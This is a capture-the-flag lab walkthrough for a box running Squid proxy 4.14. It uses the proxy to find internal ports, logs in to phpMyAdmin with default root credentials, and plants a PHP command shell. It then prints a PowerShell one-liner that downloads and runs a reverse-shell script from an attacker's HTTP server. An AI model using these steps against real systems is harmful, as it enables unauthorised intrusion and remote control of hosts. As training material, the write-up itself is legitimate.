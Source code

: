 First thing first we start with scanning the host for open ports using rustscan then use nmap to further enumerate those ports open

![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/1.png)

```
# Nmap 7.92 scan initiated Fri Jan 13 14:46:40 2023 as: nmap -sCV -A -p3128 -oN nmapscan -Pn 192.168.68.189
Nmap scan report for 192.168.68.189
Host is up (0.22s latency).

PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 13 14:47:16 2023 -- 1 IP address (1 host up) scanned in 36.55 seconds
```

From the scan result we see that its a linux box and has only one port open which is port 3128 and the service that runs on it is squid proxy.

Now what is `Squid Proxy`: Squid is a full-featured web proxy cache server application which provides proxy and cache services for Hyper Text Transport Protocol (HTTP), File Transfer Protocol (FTP), and other popular network protocols. 

Basically its just a web proxy cache server application. And its the link between the external service and internal service

If we try accessing it we will get some sort of error
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/2.png)

So we can leverage squid by scanning the internal ports open in the target

Firstly I need to generate a wordlist which will contain 1-65535 (tcp ports)
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/3.png)

Then FUZZ for the internal ports and the squid proxy will be the proxy which will allow me perform this action
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/4.png)

From the result we see that there are 2 internal running ports which are `3306` & `8080`

Using foxy proxy we can access the internal web page using the squid ip and port
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/6.png)

Now lets access it by naviagating to http://127.0.0.1:8080/ we are presented with a default page for wampserver 

Looking below we see a phpmyadmin link lets click on it

Then logging in with the default cred `root:<blank_password>` we get access to the phpmyadmin panel
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/8.png)

We can leverage this to get remote code execution as far as the user has write access over the web root directory which in this case its `C:\wampp\www` 

Then creating a php code that would give us code execution and saving it in the web root directory
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/9.png)

Now to get code execution we just need to call in the the file and use ?cmd=<command> to run the command

And the web server is running as root 
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/10.png)

Lets get a more stable shell

I'll be using Invoke-PowerShellTcp.ps1 script
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/11.png)

So I set up a python http server on port 80 and a netcat listener on port 4444

Then to get shell i'll use this powershell command which would load the external script and execute it in this case the powershell reverse shell script

```
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip>:<port>/Invoke-PowerShellTcp.ps1')
```
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/12.png)

Now back on our python http server
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/13.png)

Now on our netcat listener we get a shell
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/14.png)

Incase you have any problem on this or I made a mistake please be sure to DM me on discord `Hack.You#9120`

<br> <br>
[Back To Home](../../index.md)
<br>


